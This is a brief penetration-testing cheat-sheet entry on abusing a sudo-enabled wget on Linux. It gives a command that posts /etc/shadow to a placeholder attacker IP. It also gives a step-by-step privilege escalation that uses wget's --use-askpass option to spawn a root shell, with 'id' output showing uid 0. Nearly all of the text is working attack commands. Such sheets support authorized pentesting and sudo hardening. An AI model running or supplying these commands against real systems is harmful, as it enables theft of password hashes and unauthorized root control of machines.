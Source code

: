 # Wget

- Send file to web server

`user@debian:~$ sudo wget --post-file=/etc/shadow <attacker_IP>`

- Spawn a rooted shell

```
user@debian:~$ TF=$(mktemp)
user@debian:~$ chmod +x $TF
user@debian:~$ echo -e '#!/bin/bash\n/bin/bash 1>&0' > $TF
user@debian:~$ sudo wget --use-askpass=$TF 0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

---
## References

- [Hacking Articles: Wget Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)